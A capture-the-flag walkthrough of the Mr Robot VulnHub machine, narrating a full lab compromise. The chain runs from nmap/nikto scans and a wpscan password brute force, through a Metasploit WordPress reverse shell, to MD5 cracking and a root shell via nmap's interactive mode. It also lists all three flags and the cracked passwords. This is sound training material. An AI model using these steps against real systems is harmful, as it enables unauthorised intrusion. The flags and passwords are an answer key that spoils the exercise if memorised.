 # Mr-Robot-CTF
Will Pfleger
1/30/18

This is my write-up for the Mr Robot CTF hosted on vulnhub.com I will be installing 
the CTF VM in Oracle VirtualBox and I will run my penetration test from a Kali Linux
VM also intalled in VirtualBox. The 2 virtual machines are connected via a host-only 
NAT network hosted by VirtualBox.

The inital login screen of the vulnerable VM immedately prompts you for a username
and password. I tried several typical combinations (e.g. "admin/admin") but could't
log on successfully. I then moved to my Kali VM to run a port scan of the subnet
(the virtual network) "nmap -sP 10.0.2.15/24" and found the Mr Robot VM's local IP address to 
be. A more detailed port scan ("nmap -A 10.0.2.15") revealed an HTTP service running on port 80.
After running "firefox 10.0.2.15" and finding a Mr. Robot-based intro video, I check for a 
robots.txt file on the web server and successfully found one. The conents were:

"User-agent: *
fsocity[sic].dic
key-1-of-3.txt"

Running a "wget 10.0.2.15/key-1-of-3.txt" yielded the first key file, which contained the string
"073403c8a58a1f80d943455fb30724b9". I then ran a Nikto scan to further inspect the running web
server "nikto -h 10.0.2.15". This showed an active Wordpress account running on the target machine
(per Nikto: "/wp-login/: Admin login page/section found."). I opened 10.0.2.15/wp-login in Firefox
and tried to guess a few username/password combinations with no luck. However, it being a Mr.
Robot-themed CTF, one of my username guesses was "elliot" and the error message I got for that
username gave me a clue. Instead of giving me the usual "incorrect password" message, I got
"The password you entered for the username elliot is incorrect". This gave me the idea to use
the username "elliot" against the dictionary file I downloaded from the webserver (10.0.2.15/
fsocity.dic) in a brute force attack. I initally attempted to use Hydra to brute force the
password but was unsuccessful. I then tried wpscan instead and ran "wpscan -u 10.0.2.15 --wordlist
./fsocity.dic --username elliot" and after a lengthy scan came up with the password "ER28-0625"

I used this username/password combination to log into Wordpress. I played around with the functionality
of the Wordpress and guessed that since I could add/modify plugins, I was a privileged user. Since Nikto
found a vulnerable version of Wordpress on the VM and since I had admin credentials, I decided to open Metasploit.
The exploit I chose was a Wordpress PHP reverse shell (msfconsole>"use exploit/unix/webapp/wp_admin_reverse_shell.php").
I set all the options accordingly (RHOST and RPORT were set to the victim's IP and target port, respectively. 
USERNAME and PASSWORD were set to the credentials I brute forced earlier. I then ran the exploit (msfconsole>"exploit")
and after letting it run for a while, it successfully opened a Meterpreter session between my machine and the vicim. 
The payload was executed at "/wp-content/plugins/blMwULtTPK/tpvYlKfvcv.php". The Meterpreter session was spawned in the 
"/opt/bitnami/apps/wordpress/htdocs/wp-content/plugins/blMwULtTPK" directory and after finding nothing interesting in that 
directory, I moved to the user's home directory. There, I found 2 files: "key-2-of-3.txt" and "password.raw-md5". 

Now that I had the 2nd key, I inspected the hash file closer (note: in my Meterpreter session
I didn't have permission to cat the 2nd key, but I did have permission to cat the 
hash file. I will later describe how I gained user access to gain permission to view
the key file. Its contents were "robot:c3fcd3d76192e4007dfb496cca67e13b" which looks like
a username and hash pair. I moved over to haskiller.co.uk to run the given hash against theirprecomputed rainbow tables. The site successfully reversed the hash to abcdefghijklmnopqrstuvwxyz. I ran "meterpreter>shell"
to drop into a shell on the machine. The shell given was extremely limited in functionality, so
I spawned a Bash shell inside my current session with "python -c 'import pty; pty.spawn("/bin/
bash")' ". I then logged in as the "robot" user given the password I got from the MD5 hash. Now I
have permission to view the 2nd key (822c73956184f694993bede3eb39f959).

My final step was to gain root access to the system in order to find the 3rd and final key. I ran
"nmap localhost" in hopes of gaining root access through a running service but despite finding several
services (FTP, HTTP/S, and MySql), I had no luck. My next idea was to look through all the commands
I had access to as the "robot" user. Running "echo $PATH" revealed my shell's path was "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games".
I inspected each of those directories and found that nmap was installed on the system in "/usr/local/bin".
I then ran "nmap --interactive" to enter nmap's interactive command state in hopes of spawning a root shell from inside
nmap since nmap is located in "/usr/local/bin" and owned by root. I ran "nmap>!sh" which successfully spawned a root shell 
(confirmed by "whoami" and "groups" commands). I then moved to the root directory discovering the 3rd and final key 
(04787ddef27c3dee1ee161b21670b4e4). Now we have successfully found all 3 keys and rooted the system.










